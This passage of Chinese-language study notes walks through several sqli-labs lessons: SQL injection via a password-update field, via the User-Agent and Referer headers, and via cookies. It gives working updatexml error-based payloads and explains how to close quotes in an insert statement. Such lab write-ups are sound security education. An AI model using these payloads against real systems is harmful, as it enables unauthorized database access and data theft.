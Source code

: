 ## 9. Less-17（更改密码类注入（update 语句注入））

1. 在 User Name 中输入已经存在的账号

2. 在 New Password 中输入密码，并且插入 SQL 语句。

3. 应用：

    `uname=admin&passwd=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) -- -&Submit=Submit`

## 10. Less-18~19（HTTP 请求头注入）

1. 登录成功后界面返回 User-Agent 或 Referer 的内容，考虑是 HTTP 请求头注入。

2. 判断闭合后（注释后面语句后），报 `Column count doesn't match value count at row 1` 错误。说明系统中的 SQL 语句是 Insert 语句。

3. 对于 Insert 语句，一般情况下都是

    `insert into 表名(列名1, 列名2, ..., 列名n) values('值1', ..., '值n');`

    注入点也一般是在 values 中。

    构造其中一个值，写成：

    `'值1' SQL 注入语句 or '1'='1` 来注入。

    例如：

    `User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0 ' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) or '1'='1`

    99.0 后面的单引号闭合 values 中自带的一个，然后植入 SQL 语句，最后用 `or '1'='1` 闭合后面自带的单引号（注意这里不能使用注释符注释后面，否则会报列数不匹配的错误）

4. 结果![image-20220408150614100](SQL注入.assets/image-20220408150614100.png)

## 11. Less-20(Cookie 注入)

1. 登录成功后，注入点在 Cookie，因此对 Cookie 进行注入即可（这里是 Query 注入）。

## 12. Less-21~22（编码）
